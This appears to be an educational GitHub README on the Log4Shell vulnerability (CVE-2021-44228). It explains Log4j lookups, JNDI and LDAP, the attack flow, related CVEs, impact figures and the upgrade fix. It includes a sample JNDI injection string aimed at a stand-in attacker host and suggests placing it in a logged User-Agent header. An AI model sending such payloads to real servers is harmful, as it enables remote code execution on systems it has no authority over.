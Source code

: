
# 🚨 Log4Shell: CVE-2021-44228 🚨



## ❓ What is Log4Shell?

The Log4Shell attack was a widespread Java exploit targeting a common logging package (Log4j) for remote code execution. It leveraged a critical vulnerability in the Log4j library, enabling attackers to execute arbitrary code remotely via crafted log messages. Despite the ubiquity of Log4j in various software frameworks and applications, the severity of this vulnerability was rated with a CVSS score of 10, indicating its critical nature.

### Why is it so important
- A popular Java library for logging error messages in applications.**That’s the irony!!!**
- Attackers can exploit the vulnerability using text messages to control a computer remotely. 
- Everyone is using it and there is no fix -> CVSS Score of **“10” CRITICAL**
- The ease of exploiting the vulnerability compounds its impact. The Log4j library controls how applications log strings of code and information. The vulnerability enables an attacker to gain control over a string and trick the application into requesting and executing malicious code under the attacker’s control. 
- Log4j logs messages from software and searches for errors afterward. The data range is broad, from basic browser and web page information to technical details about the system Log4j 2 runs on.
- Not only can the Log4j library create simple logs, but it can also execute commands to generate advanced logging information. It can also communicate with other sources, such as internal directory services.

## 📚 Background

Log4j, a Java-based logging utility, became the focus of security concerns due to its support for lookup syntax that inadvertently allowed for remote code execution through the Java Naming and Directory Interface (JNDI). This vulnerability, stemming from JNDI lookups, enabled attackers to control Log4j's log message processing, leading to the execution of malicious code.
Log4j is a Java based logging utility.
Log4j supports the lookup syntax for better string formatting. For example,
```
String lookup = "${java:os}";
logger.info("App started in OS: {}",lookup);
```
Done by implementing the corresponding Lookup class.
`16:44:47.542 [main] INFO  log4j logger - App started in OS: Mac OS X 13.3.1, architecture: aarch64-64`

Next question that arises : Is the string formatting main cause of vulnerability?

- Not really. The lookups are all predefined lookup strings. You cannot do any other things.
- But the story is different with JNDI.The Log4Shell vulnerability lies in the lookup through Java Naming and Directory Interface (JNDI).

## 🕵️‍♂️ The Vulnerability Explained
**Java Naming and Directory Interface (JNDI)**: 
Provides an API for applications to interact with various directory services, facilitating the lookup of remote objects. It's this mechanism that Log4Shell exploits.
![Name1](Images/image3.png "name1")
- The Java API for naming and directory service. 
- If you have a database connection named `“java:MySqlDS”` in your Java environment.

- Other java processes on the same Java environment can lookup the connection:
```
		Object datasourceRef = context.lookup(“java:MySqlDS”);
		DataSource ds = (DataSource) datasourceRef;
		conn = ds.getConnection();
```
- Also supports DNS lookups: `${jndi:dns:cmu.edu}` to log statistics about DNS lookup.
- This is the main reason why log4j accepts JNDI. Easy to fetch and log some printable objects.The JNDILookup plugin is added to the log4j package in issue LOG4J2-313, in 2013 (version 2.0-beta9)
- JNDI has a number of service provider interfaces (SPIs) that enable it to use a variety of directory services.
![Name1](Images/image6.png "name1")
**Danger! LDAP and RMI support Remote Code Execution.**
**LDAP : Lightweight Directory Access Protocol**
Through the use of JNDI with LDAP, attackers could manipulate the lookup process to execute remote code.
- Can use JNDI + LDAP to find an object containing the needed data.
- ldap://localhost:3**/o=BusinessObjectId allows application to find and invoke the BusinessObject remotely from an LDAP server running either on localhost or remote machine
- LDAP server either running on different server (in protected zone), or potentially anywhere on the Internet.
- If attacker can control the JNDI URL, they can cause the application to load and execute arbitrary Java code.

![Name1](Images/image5.png "name1")

**LOG4J JndiLookup Plugin**
Enables retrieval of variables via JNDI, where specially crafted lookup strings could trigger the vulnerability.
- “The JndiLookup allows variables to be retrieved via JNDI. By default the key will be prefixed with java:comp/env/, however if the key contains a ":" no prefix will be added.”
- `${jndi:ldap://attacker.server:1339/evil}` : could be a HTTP header like User-Agent, which commonly gets logged.

## 🎯 Attack Methodology

The attack involves several steps, from the initial injection of the malicious JNDI lookup string into a vulnerable application, to the execution of arbitrary code hosted on the attacker's server. This process could lead to various malicious outcomes, such as establishing reverse shells or executing unauthorized commands on the affected server.
![Name1](https://github.com/paras98/Log4Shell/blob/main/Images/Presentation1.gif)
![Name1](Images/image7.png "name1")

## 🎥 Video Demonstration
[![Log4Shell Demo Minecraft](Images/demo.png)](https://drive.google.com/file/d/1nSHfFkhpL-S6hU8LwZ-DDU9vICbSOGzM/view?usp=sharing)


## 💥 Impact and Mitigation

The widespread use of Log4j resulted in a significant impact across numerous systems and applications, with several CVEs issued to address different aspects of the vulnerability. Efforts to mitigate the issue included updating Log4j to a secure version, disabling certain features, and applying patches as they became available.

### Some CVEs 
- **CVSS Base Score:10 (12/10/2021)**
- CVE-2021-45046 enables hackers to send malicious JNDI lookups to systems that use certain non-default settings, even if those systems have fixed Log4Shell. Present in Log4j versions 2.15 and below. 

- **CVSS Base Score:5.9 (12/18/2021)**  
- CVE-2021-45105 enables hackers to launch denial-of-service attacks by sending malicious messages to Log4j. Present in Log4j versions 2.16 and below. 

- **CVSS Base Score:6.6 (12/28/2021)**
- CVE-2021-44832 is a remote code execution vulnerability. This flaw is less critical than Log4Shell because hackers need to gain elevated permissions before they can exploit it. Present in Log4j versions 2.17 and below.  

### Stats
- More than 35,000 Java packages, amounting to over 8% of the Maven Central repository

- As of December 16, 2021, 35,863 of the available Java artifacts from Maven Central depend on the affected log4j code

![Name1](Images/image19.png "name1")

**Impact on Human Workforce**
- Over 800,000 exploitation attempts were detected in the first 72 hours after log4j became public implying an urgent response from security team all around the world disrupting all the security engineers.
- This also implies a significant burden and stress on the developers and maintainers of Log4j and other open source projects. 

**Monitory Impact**
- The most affect organizations where evaluated over $100M.
- Most effect industry was education  services.

**Keeping at bay**
- In November 2022, Tenable reported that 29% of the assets still vulnerable to Log4Shell were “recurrences,” meaning they were patched, but the flaw reappeared.

## Time Line 

![Name1](Images/timeline.png "name1")

## Fix & Remediation
1. Upgrade to the latest version of log4j. (At least >=2.15.0)
What did this fix had to offer 

![Name1](https://github.com/paras98/Log4Shell/blob/main/Images/Presentation2.gif)

## 🤔 Reflections on Log4Shell

The incident raised questions about the security of open-source frameworks and the responsibilities of developers and maintainers in ensuring the security of their software. It highlighted the importance of cautious feature support in security-critical software and the need for prompt and effective vulnerability management.


**Authors:** Aditya Sudhansu, Ziheng Yan, Jun Wen, Paras Saxena, Trevor Kann


